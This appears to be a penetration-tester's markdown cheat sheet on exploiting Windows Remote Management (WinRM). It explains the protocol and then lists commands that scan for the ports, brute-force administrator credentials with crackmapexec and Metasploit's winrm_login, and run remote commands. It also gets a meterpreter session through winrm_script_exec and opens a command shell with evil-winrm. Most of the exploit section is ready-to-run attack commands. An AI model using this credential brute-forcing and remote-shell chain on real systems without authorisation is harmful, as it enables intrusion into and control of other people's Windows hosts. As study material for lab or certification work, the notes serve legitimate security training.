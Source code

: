 # Exploiting WinRM
> Windows Remote Management (WinRM) Protocol: This is a feature that exists within the Windows O/S. BUT, it is NOT configured to run by DEFAULT. It needs to be explicitly configured and enabled.

WinRM Default Ports:  `5985` (http) and `5986` (https)

## Contents
- [Intro](#intro)
  - [WinRM Usage Model](#winrm-usage-model)
  - [Exploiting WinRM](#exploiting-winrm-1)
- [Exploit](#exploit)
  - [Nmap Scan](#nmap-scan)
  - [crackmapexec](#crackmapexec)
  - [MSF: winrm_login](#msf-winrm_login)
  - [MSF: winrm_auth_methods](#msf-winrm_auth_methods)
  - [MSF: winrm_script_exec](#msf-winrm_script_exec)
  - [Ruby Script: evil-winrm](#ruby-script-evil-winrm)

## Intro

### WinRM Usage Model
- WinRM is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP/HTTPS.
- Microsoft implemented WinRM in Windows to make life easier for system administrators.
- WinRM is typically used for:
  - Remotely accessing and interacting with Windows hosts on a local network.
  - You can also configure WinRM to work over the Internet (login to a server, etc.).
  - Remotely access and execute commands on Windows systems.
  - Manage and configure Windows systems remotely.
- WinRM typically used TCP port 5985 (http) and 5986 (https) by default.

### Exploiting WinRM

#### Steps:
1. Brute-force login creds with crackmapexec.
2. Exploit with evil-winrm or MetaSploit

#### Explanation:
- WinRM implements access control and security for communication between systems through various forms of authentication.
  - This could be a simple username/password combo.
  - You could also provide the user account username and a password hash.
- We can utilize a utility called `crackmapexec` to perform a brute-force attack on WinRM in order to identifiy users and their passwords as well as execute commands on the target system.
- We can also utilize a ruby script called `evil-winrm` to obtain a command shell session on the target system.
- We can also utilize MetaSploit to get a meterpreter session. 

## Exploit

### Nmap Scan
```
nmap -sS -sV -sC -O -T4 -p- [target ip]
# or
nmap -sV -p 5985-5986 [target ip]        # (which kinda seems like cheating)
```
- The `-sV` should be sufficient.
- Problem: WinRM ports (5985, 5986) do not fall within the 1000 most common ports scanned by nmap.
- Solution: Do a `-p-` scan and wait it out.
- NOTE: Don't accept the nmap result for the VERSION of WinRM as what you actually have.
  - WinRM does not provide banner information for versions, etc.
  - Nmap gives a best guess.

### [crackmapexec](https://ptestmethod.readthedocs.io/en/latest/cme.html)
> CrackMapExec (a.k.a CME) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks.
- Supported Protocols: WinRM, MSSQL, SMB, SSH

#### For help:
```
crackmapexec -h
crackmapexec winrm -h    # for help specific to the winrm protocol
crackmapexec smb -h      # for help specific to the smb protocol (etc.)
```

#### General Syntax:
```
crackmapexec <protocol> <target(s)> -u username -p password
```

#### Examples:
```
crackmapexec <protocol> <target(s)> -u username -p 'Admin!123@'
# or
crackmapexec <protocol> <target(s)> -u='username' -p='Admin!123@'
```

#### Brute-Force:
```
crackmapexec winrm [target ip] -u administrator -p /usr/share/.../unix_passwords.txt
```
- You can use the `-u` switch to specify a file of possible user names to try.
- But, if we can get into the admin account, we don't have to do priv esc
- You should get a green `[+]` if successful.
- Look over the output (from the top down):
  - First line: you can see it actually connects to WinRM (wsman is an implementation of WinRM: windows management).
  - If you successfully found login credentials, you can crackmapexec to execute arbitrary Windows commands on the target machine...

#### Execute Commands:
```
crackmapexec winrm [target ip] -u administrator -p [password] -x "whoami"
crackmapexec winrm [target ip] -u administrator -p [password] -x "systeminfo"
```
- You should get some happy feedback along with the results of your command execution.
- The `systeminfo` command a takes while to run but provides a lot of information about your target system.


### MSF: winrm_login
- You can brute-force login creds with MetaSploit, also...
```
> use auxiliary/scanner/winrm/winrm_login
> set RHOSTS
> set USER_FILE /path/to/file
> set PASS_FILE /path/to/file
> set VERBOSE false
> run
```

### MSF: winrm_auth_methods
- You may need to find out what authentication methods your WinRM server allows: 
```
use auxiliary/scanner/winrm/winrm_auth_methods
```

### MSF: winrm_script_exec
- Obtaining a meterpreter session.
- NOTE: This module requires credentials, so you'll need to perform the brute-force attack first.
```
> search winrm_script
> use exploit/windows/winrm/winrm_script_exec
> show options
  # change what you need to: RHOSTS, etc. 
  # check your default payload and change if necessary (depending on your target system)
> set FORCE_VBS true
  #  this forces the use of a VBS Command Stager
> set username...
> set password...
> exploit
```
- You should get a meterpreter session. If it did not work, you'll have to keep trying.
- **_Remember to to set the `FORCE_VBS` to "true."_**

### Ruby Script: [evil-winrm](https://github.com/Hackplayers/evil-winrm)
> Ruby Script to Obtain Command Shell Session
```
evil-winrm.rb -u administrator -p '[password]' -i [target ip]
```
- This should automagically provide you with a command shell session. Test it out with...
```
whoami
ipconfig
net user
systeminfo
```
